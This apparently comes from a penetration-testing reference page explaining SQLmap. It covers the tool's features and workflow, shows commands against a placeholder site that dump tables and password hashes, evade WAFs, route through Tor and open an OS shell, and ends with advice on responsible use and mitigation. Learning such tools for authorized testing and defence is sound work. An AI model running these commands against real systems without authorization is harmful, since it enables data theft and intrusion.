 <br>

# SQLmap
SQLmap is **an open-source penetration testing tool designed to automate the detection and exploitation of SQL injection vulnerabilities in web applications**. It is a powerful tool for both attackers and security professionals, capable of identifying vulnerabilities, retrieving data, and even executing commands on compromised databases.

## 1. Features of SQLmap
1. **Automated** SQL Injection Detection
  - Identifies SQL injection vulnerabilities by testing various payloads on web application parameters.
2. **Database** Fingerprinting
  - Identifies the type, version, and features of the database management system (DBMS).
3. **Data Extraction**
  - Retrieves database schema, table contents, and credentials.
4. **Privilege Escalation**
  - Explores database user privileges and escalates access if possible.
5. **Operating System Interaction**
  - Executes OS-level commands when databases support extended functionality.
6. Support for **Multiple Injection Types**
  - Blind SQLi
  - Boolean-based SQLi
  - Time-based SQLi
  - Union-based SQLi
  - Error-based SQLi
  - Stacked queries and out-of-band (OOB) injections.
7. Database Support
  - Works with popular DBMSs, including:
    - MySQL
    - PostgreSQL
    - Oracle
    - Microsoft SQL Server
    - SQLite
    - MariaDB
8. **Tor and Proxy Support**
  - Routes traffic through Tor or proxies for anonymity.


## 2. How SQLmap Works
SQLmap works by sending crafted SQL payloads to the target application and analyzing the responses to identify vulnerabilities and extract data.

### Typical Workflow
1. **Identify the target URL or form**.
2. **Configure** SQLmap with the target.
3. SQLmap **sends various payloads** to test for vulnerabilities.
4. Upon finding a vulnerability, SQLmap **exploits it to extract data or perform additional actions**.


## 3. Common SQLmap Commands

### a. Basic Usage  

```
sqlmap -u "http://example.com/page?id=1"
```

- Tests the id parameter in the URL for SQL injection.

### b. Enumerate Databases  

```
sqlmap -u "http://example.com/page?id=1" --dbs
```

- Lists all databases on the target.

### c. Enumerate Tables  

```
sqlmap -u "http://example.com/page?id=1" -D database_name --tables
```

- Lists all tables in the specified database.

### d. Dump Table Data  

```
sqlmap -u "http://example.com/page?id=1" -D database_name -T table_name --dump
```

- Extracts all data from the specified table.

### e. Identify Database User  

```
sqlmap -u "http://example.com/page?id=1" --current-user
```

- Retrieves the current database user.

### f. Test All Parameters  

```
sqlmap -u "http://example.com/page?id=1" --forms
```

- Scans all parameters in forms on the page.

### g. Bypass WAFs  

```
sqlmap -u "http://example.com/page?id=1" --tamper=charencode
```

- Uses tamper scripts to bypass Web Application Firewalls (WAFs).

### h. Use Tor for Anonymity  

```
sqlmap -u "http://example.com/page?id=1" --tor
```

- Routes traffic through the Tor network.


## 4. Example Scenarios

### a. Dumping Database Credentials  

```
sqlmap -u "http://example.com/page?id=1" --passwords
```

- Extracts hashed passwords stored in the database.

### b. Discovering Privilege Levels  

```
sqlmap -u "http://example.com/page?id=1" --privileges
```

- Identifies privileges of the current database user.

### c. Running OS Commands  

```
sqlmap -u "http://example.com/page?id=1" --os-shell
```

- Spawns a shell to execute operating system commands (if supported).


## 5. Risks and Responsible Use

### SQLmap is a penetration testing tool and should be used responsibly
1. Only Test Systems **You Own or Have Permission** To Test
  - Unauthorized use can lead to legal consequences.
2. **Do Not Use on Production** Systems Without Approval
  - SQLmap can send high volumes of requests, potentially causing performance degradation.


## 6. Mitigation Against SQLmap Attacks
1. **Input Validation and Sanitization**
  - Validate and sanitize all user inputs to prevent SQL injection.
2. **Parameterized Queries**
  - Use prepared statements or stored procedures instead of dynamic SQL.
3. **Web Application Firewalls (WAFs)**
  - Block common SQL injection payloads and tamper scripts.
4. **Least Privilege Principle**
  - Restrict database user permissions to the minimum required.
5. **Regular Security Audits**
  - Use tools like SQLmap in authorized tests to identify and patch vulnerabilities.

## 7. Summary

| Feature | Details |
| ------- | ------- |
| Purpose | Automate detection and exploitation of SQL injection vulnerabilities. |
| Key Features | Data extraction, privilege escalation, OS interaction, bypass WAFs. |
| Common Commands | --dbs (list databases), --tables (list tables), --dump (extract data). |
| Supported DBMS | MySQL, PostgreSQL, SQLite, MSSQL, Oracle, MariaDB. |
| Mitigation | Input validation, parameterized queries, WAFs, least privilege principle. |

**SQLmap is an essential tool for penetration testers, offering powerful features for detecting and exploiting SQL injection vulnerabilities**. While it streamlines vulnerability testing, its **use must be ethical and authorized** to avoid legal and operational risks. Organizations can defend against SQLmap and similar tools by adopting robust security measures like **input validation**, **prepared statements**, and **regular testing**.  
<br>